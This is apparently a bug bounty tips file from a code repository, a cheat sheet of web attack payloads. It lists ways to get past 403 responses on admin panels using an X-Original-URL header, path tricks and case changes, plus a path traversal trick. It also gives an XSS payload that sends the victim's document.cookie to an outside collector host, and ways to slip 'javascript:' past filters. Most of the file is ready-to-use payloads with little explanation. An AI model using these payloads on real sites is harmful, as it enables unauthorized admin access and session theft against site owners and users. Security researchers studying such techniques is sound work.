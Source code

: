 # Bug Bounty Tips File -1 
### Admin Panel Bypass tricks and techniques.
#### Example
```js
GET /admin HTTP/1.1
Host: web.com  ====> 403 Forbidden
```
#### Bypass
```js
GET /anything HTTP/1.1
Host: web.com
X-Original-URL: /admin  ====> 200 ok
```
#### Example
```js
/admin/panel  ====> 403 Forbidden
```
#### Bypass
```js
/admin/monitor  ====> 200 ok
/admin/monitor/;panel  ====> 302 Found
```
#### Example
```js
abc.com/admin  ====> 403 Forbidden
```
#### Bypass
```js
abc.com/admin/.  ====> 200 ok
abc.com//admin//  =====> 200 ok
abc.com/./admin/./ ====> 200 ok
abc.com/secret.txt/  ====> 403
abc.com/%2f/secret.txt/  ====> 200 ok
```
```js
https://abc.com/admin ===> 302
https://abc.com/admin..;/  ===> 200 ok
```
```js
sub.abc.com/web/admin/  ====> 302
sub.abc.com/web/aDmiN/  ====> 200 ok
sub.abc.com/web/aDmiN/FUZZ  ====> Sensitie Files
```
### Path Traversal
```js
https://abc.com/path ===> 403
https://abc.com%2e/path ===> 200 ok
```
### XSS Tip
##### Payload -1 
```js
">svg onx=() onload=(location.href='<BIN>/?mycookies='+document['cookie'])()>
```
##### EX
```js
"javascript:" xss blocked
```
##### Bypass
- add any number od \n,\t or \r in the middle of java\nScript:
- add characters from \x00-\x20 at the begining \x01javascript:
- Randomize thecase jaVAscrIpt: